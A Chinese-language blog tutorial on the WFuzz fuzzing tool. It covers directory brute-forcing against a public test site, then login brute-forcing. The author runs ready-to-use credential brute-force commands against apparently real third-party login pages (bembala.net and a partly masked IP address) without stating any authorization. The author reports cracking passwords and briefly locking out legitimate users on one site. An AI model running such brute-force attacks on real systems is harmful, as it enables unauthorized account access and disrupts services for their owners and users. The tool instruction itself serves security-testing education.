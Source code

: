 知道WFuzz这款工具是因为一次 SSRF 内网探测有 fuzz 需求，一个老哥给我推荐了这款 fuzz 工具。

WFuzz 是一个【模糊测试】工具。历史悠久（10年+），功能丰富（可用作 web 漏扫、爆破工具）...... 

WFuzz 的两大优势是：
 1. Kali 自带； 
 2. 有 `Python` 接口。

![title](https://leanote.com/api/file/getImage?fileId=5da11b3aab64411aeb0006a9)

`注:`不支持https网站
![title](https://leanote.com/api/file/getImage?fileId=5da11ca1ab64411aeb0006af)

--------------

# 爆破文件和路径
文件、路径爆破的成功与否很大程度上要依赖于使用的字典。

wfuzz自带一些字典文件，更多的字典可以参考下面两个开放的git：
- fuzzdb
- seclists
注：这两个是比wfuzz更强大的fuzz项目。

使用wfuzz暴力猜测目录的命令如下：
``` bash
$ wfuzz -w /usr/share/wfuzz/wordlist/general/common.txt http://testphp.vulnweb.com/FUZZ
```

使用wfuzz暴力猜测文件的命令如下：
``` shell
$ wfuzz -w /usr/share/wfuzz/wordlist/general/common.txt http://testphp.vulnweb.com/FUZZ.php
```

## 目录爆破尝试：

命令：

``` shell
wfuzz -w /usr/share/wfuzz/wordlist/general/common.txt http://testphp.vulnweb.com/FUZZ
```

![title](https://leanote.com/api/file/getImage?fileId=5da120ccab64411aeb0006ce)

爆破出来的结果是：
![title](https://leanote.com/api/file/getImage?fileId=5da12142ab64411ce40006e8)
响应码会有变化。有的是301。

404 的响应码本应该是被忽略的：
![title](https://leanote.com/api/file/getImage?fileId=5da12198ab64411ce40006e9)

我们加上 `--hc 404` 再来尝试：
![title](https://leanote.com/api/file/getImage?fileId=5da121f5ab64411aeb0006d1)
![title](https://leanote.com/api/file/getImage?fileId=5da12211ab64411ce40006ec)

结果就都是想要的。

随便试几个爆破出来的路径：
![title](https://leanote.com/api/file/getImage?fileId=5da1226bab64411ce40006ee)
![title](https://leanote.com/api/file/getImage?fileId=5da1229eab64411aeb0006d3)

也可以把爆破结果写入一个文件：
![title](https://leanote.com/api/file/getImage?fileId=5da12783ab64411ce4000714)

![title](https://leanote.com/api/file/getImage?fileId=5da12a98ab64411aeb000741)

## 文件爆破尝试：
命令：
``` shell
wfuzz -w /usr/share/wfuzz/wordlist/general/common.txt http://testphp.vulnweb.com/FUZZ.php
```

![title](https://leanote.com/api/file/getImage?fileId=5da128b4ab64411ce400071b)

`注：`我直接加上了`--hc 404`进行过滤，结果会明了很多。

![title](https://leanote.com/api/file/getImage?fileId=5da1291bab64411ce400071d)

注意结果里面这两列，个人感觉相当于响应包的长度。
![title](https://leanote.com/api/file/getImage?fileId=5da12957ab64411ce400071e)

查看一个0字节的页面：
![title](https://leanote.com/api/file/getImage?fileId=5da129feab64411ce4000721)

----------------

# 爆破用户名和密码
在上面发现的这个网页中，我们想尝试一下爆破：
![title](https://leanote.com/api/file/getImage?fileId=5da12bc1ab64411aeb00074d)

请求地址为：http://bembala.net/admin.php

POST请求正文为：user&password=
![title](https://leanote.com/api/file/getImage?fileId=5da12c43ab64411aeb000751)

使用wfuzz测试（使用了两个本地的字典）：
``` shell
wfuzz -w /root/userName.txt -w /root/passWord.txt -d "user=FUZZ&password=FUZ2Z" http://bembala.net/admin.php
```
`-d`参数传输POST请求正文。

注意这里的占位符不是随便设定的：
![title](https://leanote.com/api/file/getImage?fileId=5da132eeab64411ce4000758)

我之前随便把第二个占位符设为`FUZZ2`，就报错了：
![title](https://leanote.com/api/file/getImage?fileId=5da13349ab64411ce400075e)

然后开始跑：
![title](https://leanote.com/api/file/getImage?fileId=5da13375ab64411aeb000782)

但是没跑出来结果......
![title](https://leanote.com/api/file/getImage?fileId=5da132afab64411ce4000757)

可能密码并不弱或者字典不够强把。

于是换个目标来测试吧，换一个我已知的弱密码登陆页面来试试：
![title](https://leanote.com/api/file/getImage?fileId=5da137f0ab64411aeb0007ad)

所以 payload 应该为:
``` shell
wfuzz -w /root/userName.txt -w /root/passWord.txt -d "login=true&username=FUZZ&password=FUZ2Z" http://202.101.*.*:9090/login.jsp
```

然后就看到 WFUZZ 开始疯狂跑，有种无止无尽的感觉：
![title](https://leanote.com/api/file/getImage?fileId=5da139ccab64411aeb0007b4)

那怎么找出爆破成功的那个结果呢，可以看到上图中，响应码都是200，唯有对响应长度进行区分了：
![title](https://leanote.com/api/file/getImage?fileId=5da13a3aab64411aeb0007b7)

就看 Lines 一行就行。在爆破成功的结果应该就是 Lines 不等于 `148L` 的那对账号密码组合。

## 结果过滤
找了点关于结果过滤的资料，发现要使用正则：

![title](https://leanote.com/api/file/getImage?fileId=5da13aa9ab64411aeb0007bc)

![title](https://leanote.com/api/file/getImage?fileId=5da13b25ab64411aeb0007d6)

构造payload为:
``` shell
wfuzz -w /root/userName.txt -w /root/passWord.txt -d "login=true&username=FUZZ&password=FUZ2Z" --hs "148L" http://202.101.*.*:9090/login.jsp
```

本以为现在就可以过滤掉包含`148L`的结果，但是跑出来还是这样：
![title](https://leanote.com/api/file/getImage?fileId=5da13cb6ab64411aeb0007e5)

很明显正则没写对呗。找原因很快就发现，过滤的关键字不是`--hs`，而应该是`--hc`或者`--ss`。

![title](https://leanote.com/api/file/getImage?fileId=5da13d46ab64411aeb0007e9)

上图中这个博客写错了。

`注意`：过滤的关键字不是`--hs`，而应该是`--hc`或者`--ss`！

换了关键字继续跑：
![title](https://leanote.com/api/file/getImage?fileId=5da15c56ab64411ce4000886)

这里可能把服务器短期跑出来什么毛病了，所以正确密码也没有什么特殊长度和响应码。
![title](https://leanote.com/api/file/getImage?fileId=5da141d6ab64411ce40007f6)

于是我登陆了一下正确账号密码，发现正确动作应该是一个跳转，所以重新写payload，正则匹配到一个302跳转。

![title](https://leanote.com/api/file/getImage?fileId=5da142c0ab64411aeb000817)
（出处：https://www.freebuf.com/column/163553.html）

payload:
``` shell
wfuzz -w /root/userName.txt -w /root/passWord.txt -d "login=true&username=FUZZ&password=FUZ2Z" --sc 302 http://202.101.*.*:9090/login.jsp
```
![title](https://leanote.com/api/file/getImage?fileId=5da14388ab64411ce40007fb)

![title](https://leanote.com/api/file/getImage?fileId=5da14526ab64411aeb00081f)

然后居然没结果。我自己又登陆了一次正确账号和密码:
一开始登不上：
![title](https://leanote.com/api/file/getImage?fileId=5da1458aab64411aeb000822)
过了一会能登上了，赶快再跑一次(用小点的字典):
![title](https://leanote.com/api/file/getImage?fileId=5da1460fab64411ce4000806)

终于跑出来了！总之这个网站一跑就会暂时不让登陆（正确的也登不上去），但是过一会儿就好了。害我折腾了很久。

## 再次尝试

换一个健壮一点的站点尝试：

![title](https://leanote.com/api/file/getImage?fileId=5da146afab64411ce400080b)

![title](https://leanote.com/api/file/getImage?fileId=5da146d4ab64411aeb000826)

![title](https://leanote.com/api/file/getImage?fileId=5da1470dab64411aeb000827)

果断跑出来了账号密码：

![title](https://leanote.com/api/file/getImage?fileId=5da14762ab64411ce4000810)

-----------------

# 总结
WFuzz核心是使用了FUZZ作为占位符，使得它能胜任更多的扫描爆破任务。

 - `-w` 参数指定字典。 
 - `-d`参数传输POST请求正文。 
 - 多个 payload 时候，占位符为：`FUZZ`,`FUZ2Z`...,`FUZnZ`，不能自己随便自定义。
 - 【结果过滤】`--hc`或`--ss`不显示符合条件的结果。
 - 【结果过滤】`--sc`或`--sl`或`--sw`或`--sh`显示符合条件的结果。

WFuzz 的功能还有很多很多，以后会继续在真实场景中去熟悉其使用。我在这篇文章写作的时候，就是对着【史上最详[ZI]细[DUO]的wfuzz中文教程】和【wfuzz使用手册】这两篇想用什么功能就用关键字去搜索语法，现学现用、挺好使的。

--------------

### 参考链接（排名有先后）：
[1] [wfuzz使用手册](https://hack4.fun/2019/04/wfuzz%E4%BD%BF%E7%94%A8%E6%89%8B%E5%86%8C/)，https://hack4.fun/，TOKYOCOLQ，2019年4月23日
[2] [史上最详[ZI]细[DUO]的wfuzz中文教程（一）-初识wfuzz](https://www.freebuf.com/column/163553.html)， FREEBUF，m0nst3r,2018年3月4日
[3] [史上最详[ZI]细[DUO]的wfuzz中文教程（二）——wfuzz 基本用法](https://www.freebuf.com/column/163632.html)，FREEBUF，m0nst3r，2018年2月28日
[4] [史上最详[ZI]细[DUO]的wfuzz中文教程（三）-wfuzz高级用法](https://www.freebuf.com/column/163787.html)，FREEBUF，m0nst3r，2018年3月1日
[5] [史上最详[ZI]细[DUO]的wfuzz中文教程（四）—— wfuzz 库](https://www.freebuf.com/column/164079.html)， FREEBUF，m0nst3r，2018年3月4日
[6] [Wfuzz - Github 项目](https://github.com/xmendez/wfuzz)
[7] [WFUZZ使用教程](https://www.fuzzer.xyz/2019/03/29/WFUZZ%E4%BD%BF%E7%94%A8%E6%95%99%E7%A8%8B/)，Ethan's Blog，Ethan，2019年3月29日
[8] [WFUZZ大法](https://wh0ale.github.io/2019/03/02/2019-3-2-WFUZZ%E5%A4%A7%E6%B3%95/)，Wh0ale's Blog，Wh0ale，2019年9月29日 ← 此博文中有错误，谨慎阅读
[9] [Scan for shellshock with wfuzz](http://edge-security.blogspot.com/2014/10/scan-for-shellshock-with-wfuzz.html)，Security on the edge，2014年10月30日


 
